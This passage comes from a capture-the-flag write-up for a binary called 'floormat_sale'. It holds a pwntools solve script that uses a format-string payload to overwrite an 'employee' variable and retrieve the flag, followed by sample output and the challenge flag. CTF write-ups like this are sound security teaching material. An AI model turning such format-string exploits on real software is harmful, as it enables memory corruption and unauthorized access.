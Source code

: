 ```python
init-pwndbg
b *employee_access
continue
'''

# Set up pwntools for the correct architecture
exe = './floormat_sale'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# Address of the 'employee' variable
employee_addr = elf.symbols['employee']
info(f"Employee variable address: {hex(employee_addr)}")

# Manually set the format string offset
offset = 10
info(f"Using format string offset: {offset}")

# Craft the payload to overwrite 'employee' variable
# We include the address of 'employee' in the payload
# Then use %<offset>$n to write to that address

# Since the address needs to be on the stack, we place it appropriately
payload = fmtstr_payload(offset, {employee_addr: 1}, write_size='int')

# Start the program
io = start(level='warn')

# Send the choice (option 6)
io.sendlineafter(b'Enter your choice:', b'6')

# Wait for the shipping address prompt
io.recvuntil(b'Please enter your shipping address:')

# Send the payload
io.sendline(payload)

# Receive the output to synchronize
io.recvuntil(b'Your floor mat will be shipped to:')

# Receive and print the flag
io.recvuntil(b'Exclusive Employee-only Mat will be delivered to: ')
flag = io.recvline()
success(f'Flag: {flag.decode()}')
```

When we enter menu option `6`, we'll get the flag.

```bash
python solve.py REMOTE 127.0.0.1 1339
[*] Employee variable address: 0x40408c
[*] Using format string offset: 10
[+] Flag: INTIGRITI{fake_flag}
```

Flag: `INTIGRITI{3v3ry_fl00rm47_mu57_60!!}`
